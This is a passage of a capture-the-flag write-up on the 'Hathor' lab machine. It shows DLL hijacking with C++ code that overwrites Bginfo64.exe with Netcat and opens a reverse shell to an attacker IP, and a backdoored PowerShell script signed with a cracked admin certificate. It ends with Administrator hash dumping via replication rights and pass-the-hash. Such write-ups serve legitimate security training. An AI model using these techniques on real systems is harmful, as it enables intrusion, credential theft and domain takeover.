

> This ticket isn't really needed but I like to have choices in case I need to use a tool that doesn't automatically handle Kerberos auth later on.

Now we can enumerate that share via Impacket's [smbclient](https://github.com/fortra/impacket/blob/master/examples/smbclient.py). 

```
└─$ impacket-smbclient -k 'windcorp.htb/beatricemill:[REDACTED]@hathor.windcorp.htb'
```



There are two binaries named `AutoIt3_x64.exe` and `Bginfo64.exe` within it, as well as a scripts directory which holds a bunch of AutoIt scripts and a `7-zip64.dll` file which is writable by us.

### DLL Hijacking
My thought process is to overwrite that DLL with something malicious in order to get code execution in the context of whoever's running it, but first I want to find out if either of those executables are being ran. I use the following crude PowerShell script to find those image names in tasklist every two seconds or so.

```
while ($true) {
    Get-Date -Format "HH:mm:ss"
    tasklist /FI "IMAGENAME eq AutoIt3_x64.exe" /NH
    tasklist /FI "IMAGENAME eq Bginfo64.exe" /NH
    Start-Sleep -Seconds 2
}
```



I'll also check that the DLL is actually used in any of those AutoIt scripts before wasting any more time. As expected 7zip.au3 has it set as a global env variable, so we're clear to move on.



As it stands, I don't actually know much about our file permissions on the share and what we can abuse. The only reason I found out that the DLL was writable was by copying backups of each file on the share and trying one by one.

To gather more information, I'll create a DLL that writes some more info about the context of who is executing those two binaries into a file readable by our shell.

```
└─$ cat 7-zip64.cpp

#include <windows.h>
#include <stdlib.h>

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        system("cmd.exe /c whoami /all > C:\\users\\public\\test.txt");
        system("cmd.exe /c icacls C:\\share >> C:\\users\\public\\test.txt");
        system("cmd.exe /c icacls C:\\share\\* >> C:\\users\\public\\test.txt");
        system("cmd.exe /c icacls C:\\share\\scripts\\* >> C:\\users\\public\\test.txt");
        break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

I'll cross compile it using mingw and upload it via smbclient:

```
└─$ x86_64-w64-mingw32-g++ -shared -o 7-zip64.dll 7-zip64.cpp -static -static-libgcc -static-libstdc++

└─$ impacket-smbclient -k 'windcorp.htb/beatricemill:[REDACTED]@hathor.windcorp.htb'
# use share
# cd scripts
# put 7-zip64.dll
```

Once the automated script executes, we can display the output in our shell to find that it's running under the context of the GinaWild user.



We can also find that users within the ITDep group have write owner permissions on the Bginfo64.exe file in that share.



So the path to get code execution as GinaWild is to take ownership of that executable and replace it with with something like a reverse shell. 

I'll upload a Netcat binary to the box through our shell and then update the `7-zip64.dll` to perform the necessary actions. It will do four things:
1. Take ownership of `Bginfo64.exe`
2. Grant GinaWild full permissions over that executable
3. Overwrite that executable with a Netcat binary
4. Execute a reverse shell command

> The web user has Full permissions over the `C:\inetpub\wwwroot\Data\Sites` directory so I upload the Netcat binary there.

```
└─$ cat 7-zip64.cpp

#include <windows.h>
#include <stdlib.h>

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        system("cmd.exe /c takeown /F C:\\share\\Bginfo64.exe");
        system("cmd.exe /c cacls C:\\share\\Bginfo64.exe /E /G ginawild:F");
        system("cmd.exe /c copy C:\\inetpub\\wwwroot\\data\\sites\\nc64.exe C:\\share\\Bginfo64.exe");
        system("cmd.exe /c C:\\share\\Bginfo64.exe -e cmd 10.10.15.186 9005");
        break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

Repeating the same process of cross-compiling it and overwriting the DLL, we're granted a shell as GinaWild.

```
└─$ rlwrap -cAr nc -lnvp 9005
```



At this point we can grab the user flag under her Desktop folder and begin looking at ways to escalate privileges to Administrator.

### Deleted Certificate
After a ridiculously long time of enumerating the file system, I eventually find an SID matching GinaWild's in the Recycle Bin.

```
PS> cd C:\$Recycle.Bin

PS> dir /a

PS> cd S-1-5-21-3783586571-2109290616-3725730865-2663
```



Inside is a PFX file which I copy to my attacking machine for close inspection.

```
PS> copy .\$RLYS3KF.pfx C:\share\
```

Attempting to extract information about the certificate prompts a password.

```
└─$ openssl pkcs12 -info -in '$RLYS3KF.pfx' -noout
```



We can use tools like [crackpkcs12](https://github.com/crackpkcs12/crackpkcs12) and the likes to brute force the password with a wordlist. I'll clone the repo and install/run it with the following commands.

```
└─$ git clone https://github.com/crackpkcs12/crackpkcs12

└─$ tar -xf crackpkcs12*

└─$ cd crackpkcs12*

└─$ ./configure

└─$ make

└─$ sudo make install

└─$ crackpkcs12 \$RLYS3KF.pfx -d /opt/seclists/rockyou.txt
```



That gives us the password which we can use to pull the certificate from the PFX. Viewing the data from the cert.pem file shows that it's an Admin certificate used for code signing.



With this in hand, the most likely path is to hijack a binary or script and sign it with this certificate in order to have it execute whatever we want.

### Signing Malicious Script
Thinking back to get-bADpasswords, it must have access to domain users' passwords in order to work correctly, so therefore it's likely to be running as privileged user. I'll copy it to my attacking machine over the SMB share and add a line at the top that uses the previous `Bginfo64.exe` to get a reverse shell in the same way we did for GinaWild.

> We must change the file's extension while copying it since .ps1 is blocked on that share.

```
#On the Box (copying script off)
PS> copy Get-bADpasswords.ps1 \share\payload.txt

#On attacker machine (updating script)
└─$ nano payload.txt
```



After adding that malicious line to the script, we upload it back to the box over SMB and overwrite the original file.

```
PS> copy C:\share\payload.txt C:\get-bADpasswords\get-bADpasswords.ps1
```

Now we have to sign the malicious script. First I'll convert the PFX password to a secure string and import the certificate from the recycle bin into our user's store.

```
PS> $pass = ConvertTo-SecureString -String '[REDACTED]' -AsPlainText -Force

PS> $cert = Import-PfxCertificate -FilePath 'C:\$Recycle.bin\S-1-5-21-3783586571-2109290616-3725730865-2663\$RLYS3KF.pfx' -Password $pass -CertStoreLocation Cert:\CurrentUser\My

PS> $cert
```



All that's left here is to sign it with that certificate using a PowerShell-native cmdlet and execute the `run.vbs` script so the malicious code runs:

```
PS> Set-AuthenticodeSignature .\Get-bADpasswords.ps1 $cert

PS> C:\windows\system32\cscript .\run.vbs
```



Once that runs, we finally get a privileged shell as bpassrunner.

```
└─$ rlwrap -cAr nc -lvnp 9009
```



### Abusing Replication Rights
Because get-bADpasswords needs special privileges to access domain user's passwords, it effectively already has Domain Admin rights. Looking at the repo's [README](https://github.com/improsec/Get-bADpasswords) page, a requirement is having both "Replicating Directory Changes" and "Replicating Directory Changes All", meaning we can literally grab the Admin's NTLM hash with the Get-ADReplAccount cmdlet.

```
PS> Get-ADReplAccount -SamAccountName administrator -Server 'hathor.windcorp.htb'
```



It also belongs to the Account Operators group, which can be used to add ourselves to the Server Operators group and then execute scheduled tasks as SYSTEM among plenty of other ways to esclate privileges. 

With the Administrator's hash in hand, we can use it in a Pass-The-Hash attack to first get a TGT and then grab a shell over WinRM.

```
└─$ impacket-getTGT windcorp.htb/Administrator@hathor.windcorp.htb -hashes ':[REDACTED]'

└─$ export KRB5CCNAME=Administrator@hathor.windcorp.htb.ccache

└─$ evil-winrm -i hathor.windcorp.htb -r 'windcorp.htb'
```



Lastly, we can claim the root flag under their desktop folder to complete this challenge.

Overall, this challenge had some unique exploits and required us to know a good level of Windows internals. Most of the difficulty rested in the Applocker constraints and abusing the automated tasks to do our dirty work but once you understood how they worked it got a bit more tame. I hope this was helpful to anyone following along or stuck like I was and happy hacking!
